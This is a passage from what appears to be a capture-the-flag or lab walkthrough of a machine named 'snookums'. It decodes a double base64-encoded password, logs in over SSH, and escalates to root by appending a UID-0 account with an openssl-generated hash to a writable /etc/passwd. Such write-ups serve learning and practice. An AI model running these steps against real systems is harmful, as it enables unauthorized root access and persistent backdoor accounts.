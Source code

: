 We see that there is a password stored for a user named `michael`. Lets decode the password as it seems to be `base64` encoded.

```bash
$ echo 'U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==' | base64 -d
SG9ja1N5ZG5leUNlcnRpZnkxMjM=
```

It seems that the string is still `base64` encoded. Lets decode it again.

```bash
$ echo 'SG9ja1N5ZG5leUNlcnRpZnkxMjM=' | base64 -d
HockSydneyCertify123
```

> We now have a password for user `michael` (`HockSydneyCertify123`) which might also works to access his `ssh` account.
{: .prompt-info }

Now we are logging in via `ssh` using `michael:HockSydneyCertify123`
```bash
$ ssh michael@192.168.126.58
michael@192.168.126.58's password: 
[michael@snookums ~]$ id
uid=1000(michael) gid=1000(michael) groups=1000(michael) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

> It worked!
{: .prompt-info }

We are user `michael`, but the goal is to gain `root` access to the system.  
So, we now check some basic escalation techniques to check if we can elevate our privileges to `root`.

> The file `/etc/passwd` is writeable.
{: .prompt-info }

We are now creating a `hash` for a new user we want add to the system.
```bash
$ openssl passwd -1 -salt new 123
$1$new$p7ptkEKU1HnaHpRtzNizS1
```
Appending the following line to the file `/etc/passwd` will create a `root` user with the name `new`.  
  
`new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash`  
  
Now we can switch to our newly created `root` user (`new:123`).
```bash
[michael@snookums tmp]$ su new
Password: 
[root@snookums tmp]# whoami
root
```

> Root access!
{: .prompt-info }
